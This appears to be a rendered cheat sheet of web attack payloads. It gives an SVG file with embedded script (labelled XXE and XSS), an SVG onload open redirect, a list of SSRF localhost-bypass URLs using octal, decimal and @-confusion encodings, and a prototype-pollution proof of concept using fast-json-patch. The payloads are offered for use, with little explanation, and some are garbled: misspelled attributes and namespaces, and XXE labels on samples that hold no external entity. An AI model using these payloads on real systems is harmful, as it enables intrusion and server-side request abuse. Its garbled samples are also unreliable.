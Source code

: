 <span style="color:#21C587">&#35;</span><strong> XXE & XSS</strong><br>
```xml
<?xml version="1.1" standlone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <rect style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
  <script type="text/javascript">
    alert("XXE & XSS");
  </script>
</svg>
```

<span style="color:#21C587">&#35;</span><strong> XXE & Open Redirect</strong><br>
```xml
<code>
  <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
  <svg onload="window.location='URL'" xmlns="http://www.w3.rog/200/svg">
    <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
  </svg>
</code>
```

---
## SSRF Payload<br>

```
http://127.0.0.1/
http://localhost/
https://127.0.0.1/
https://localhost/
http://0.0.0.0
http://[::]:80
http://0000::1:80/
http://0177.0.0.1/
http://2130706433/
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
HTtP:/\ˡℴcalhost
```

---
## Prototype Pollution

```
const obj = {}
obj.__proto__ == obj.constructor.prototype # true
```

```js
const jsonpatch = require('fast-json-patch');
const a = {};
const payload = [{op:'replace', path:'/constructor/prototype/polluted', value:'Prototype Pollution'}];
jsonpatch.applyPatch(a, payload);

console.log(a.polluted) # Prototype Pollution
```
